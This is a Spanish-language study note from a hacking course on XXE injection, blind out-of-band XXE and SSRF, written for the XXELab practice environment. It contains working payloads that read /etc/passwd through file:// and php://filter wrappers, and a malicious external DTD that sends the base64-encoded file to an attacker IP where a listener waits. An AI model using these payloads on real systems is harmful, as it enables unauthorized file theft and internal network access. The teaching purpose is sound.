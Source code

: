 -----------
Tags: #xxe

----------
**XML External Entity** (**XXE**) **Injection** es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.

Un caso común en el que los atacantes pueden explotar XXE es cuando el servidor web no valida adecuadamente la entrada de datos XML que recibe. En este caso, un atacante puede inyectar una entidad XML maliciosa que contiene referencias a archivos del sistema que el servidor tiene acceso. Esto puede permitir que el atacante obtenga información sensible del sistema, como contraseñas, nombres de usuario, claves de API, entre otros datos confidenciales.

Cabe destacar que, en ocasiones, los ataques XML External Entity (XXE) Injection no siempre resultan en la exposición directa de información sensible en la respuesta del servidor. En algunos casos, el atacante debe “**ir a ciegas**” para obtener información confidencial a través de técnicas adicionales.

Una forma común de “ir a ciegas” en un ataque XXE es enviar peticiones especialmente diseñadas desde el servidor para conectarse a un **Document Type Definition** (**DTD**) definido externamente. El DTD se utiliza para validar la estructura de un archivo XML y puede contener referencias a recursos externos, como archivos en el sistema del servidor.

Este enfoque de “ir a ciegas” en un ataque XXE puede ser más lento y requiere más trabajo que una explotación directa de la vulnerabilidad. Sin embargo, puede ser efectivo en casos donde el atacante tiene una idea general de los recursos disponibles en el sistema y desea obtener información específica sin ser detectado.

Adicionalmente, en algunos casos, un ataque XXE puede ser utilizado como un vector de ataque para explotar una vulnerabilidad de tipo **SSRF** (**Server-Side Request Forgery**). Esta técnica de ataque puede permitir a un atacante escanear **puertos internos** en una máquina que, normalmente, están protegidos por un firewall externo.

Un ataque SSRF implica enviar solicitudes HTTP desde el servidor hacia direcciones IP o puertos internos de la red de la víctima. El ataque XXE se puede utilizar para desencadenar un SSRF al inyectar una entidad XML maliciosa que contiene una referencia a una dirección IP o puerto interno en la red del servidor.

Al explotar con éxito un SSRF, el atacante puede enviar solicitudes HTTP a servicios internos que de otra manera no estarían disponibles para la red externa. Esto puede permitir al atacante obtener **información sensible** o incluso **tomar el control** de los servicios internos.

A continuación, se proporciona el enlace al proyecto de Github correspondiente al laboratorio que estaremos desplegando en esta clase para practicar esta vulnerabilidad:
- **XXELab**: [https://github.com/jbarone/xxelab](https://github.com/jbarone/xxelab)

### Qué es XML

![[Pasted image 20230901172521.png]]
Las **entidades** son una forma de representar un elemento de datos sin referenciar a los datos como tal, todo ello en un documento XML. Las principales entidades son:
- Genéricas/Customizadas
- Externas (XXE)
- Predefinidas:
	- &lt;
	- &gt;

La estructura XML es la siguiente:
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "miEntidad">]> //DTD(Document Type Definition)

<Profesores>
	<Nombre>S4vitar</Nombre>
	<Edad>27</Edad>
	<Rol>Lammer</Rol>
</Hack4u>
```

## Tipos de wrappers 
- file:///etc/passwd
- php://filter/convert.base64-encode/resource=/etc/passwd
-------------
## XXE básico con output

Nos aprovechamos de DTD para poder leer archivos de la máquina objetivo. Ya que el servidor interpreta las etiquetas xml, es posible inyectar.
```xml
<?xml version="1.0' encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]> 
<root>
	<name> test</name>
	<tel>123456789</tel>
	<email>&myFile;</email>
	<password>s4vitar123</password>
</root>
```

## XXE OOB

Utilizamos el DTD pero no se ve la respuesta.

![[Pasted image 20230901181130.png]]
Escuchando desde la máquina atacante con un servidor python por el puerto 80.
![[Captura de pantalla 2023-09-01 a las 18.12.54.png]]
Escuchamos en la maquina atacante las peticiones y con el siguiente archivo xml.
```xml
<?xml version="1.0' encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % myFile SYSTEM "http://192.168.111.45/testXXE"> %myFile;]>
<root>
	<name> test</name>
	<tel>123456789</tel>
	<email>&myFile;</email>
	<password>s4vitar123</password>
</root>
```

Si queremos leer un archivo del sistema objetivo, sería de la siguiente forma con malicious.dtd
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<!ENTITY &#×25; exfil SYSTEM 'http://192.168.111.45/?file=%file;'>">
%eval;
sexfil;
```
Nosotros como atacantes le veremos en base64.

Con todo esto podemos hacer un script que automatice todo el proceso.
![[Captura de pantalla 2023-09-02 a las 11.01.22.png]]

## SSRF
![[Captura de pantalla 2023-09-02 a las 11.03.55.png]]